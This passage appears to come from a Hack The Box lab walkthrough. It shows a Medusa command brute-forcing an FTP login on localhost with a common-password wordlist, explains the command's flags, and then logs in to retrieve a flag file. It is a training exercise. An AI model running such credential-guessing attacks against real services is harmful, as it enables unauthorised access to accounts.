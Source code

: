 ```shell-session
smoothment@htb[/htb]$ medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

GENERAL: Parallel Hosts: 1 Parallel Logins: 5
GENERAL: Total Hosts: 1
GENERAL: Total Users: 1
GENERAL: Total Passwords: 197
...
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ... Password: ... [SUCCESS]
...
GENERAL: Medusa has finished.
```

The key differences here are:

- `-h 127.0.0.1`: Targets the local system, as the FTP server is running locally. Using the IP address tells medusa explicitly to use IPv4.
- `-u ftpuser`: Specifies the username`ftpuser`.
- `-M ftp`: Selects the FTP module within Medusa.
- `-t 5`: Increases the number of parallel login attempts to 5.

### Retrieving The Flag

Upon successfully cracking the FTP password, establish an FTP connection. Within the FTP session, use the`get` command to download the`flag.txt` file, which may contain sensitive information.:


```shell-session
smoothment@htb[/htb]$ ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost

Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||25926|)
150 Here comes the directory listing.
-rw------- 1 1001 1001 35 Sep 05 13:17 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||37251|)
150 Opening BINARY mode data connection for flag.txt (35 bytes).
100% |***************************************************************************| 35 776.81 KiB/s 00:00 ETA
226 Transfer complete.
35 bytes received in 00:00 (131.45 KiB/s)
ftp> exit
221 Goodbye.
```
